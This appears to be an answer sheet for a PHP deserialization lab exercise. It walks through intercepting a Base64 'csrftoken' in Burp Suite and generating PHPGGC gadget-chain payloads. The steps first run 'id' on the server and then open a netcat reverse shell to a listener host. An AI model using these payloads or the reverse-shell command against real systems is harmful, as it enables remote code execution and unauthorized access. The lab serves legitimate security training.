

# PHP Deserialization Answersheet

**Step 1:**Navigate to "PHP Website:16664" link

<br /> <br />


**Step 2:**Provide the necessary information and click on "submit" button.

<br /> <br />


**Step 3:**Capture the request in BurpSuite proxy and Observe the "csrftoken" parameter contains the Base64 data.

<br /> <br />


**Step 4:**While decoding the value with Base64, we are able to identify the serealized data.

<br /> <br />


**Step 5:**Send request captured in **Step 3** to the Burp Repeater 

<br /> <br />


**Step 6:**Download the PHPGGC utility from the following location to generate the serealized payload using the following command and capture the payload
PHPGGC Location: https://github.com/ambionics/phpggc
```
./phpggc -b slim/rce1 system id
```

<br /> <br />


**Step 7:**Replace the payload generated in **Step 6** in parameter "csrftoken" in request captured in **Step 5** and send request and observe the serve respond with the output of command "id".

<br /> <br />


**Step 8:**Start the listener using the following command
```
nc -nlvp 6666
```

<br /> <br />


**Step 9:**Capture the system IP Address and used that to generate the payload of reverse shell using the following command and capture the payload
```
./phpggc -b slim/rce1 "nc 192.168.29.88 6666 -e /bin/bash"
```

<br /> <br />


**Step 10:**Repalce the payload catured in **Step 9** in "csrftoken" paramter in **Step 5** and click on "send" button.

<br /> <br />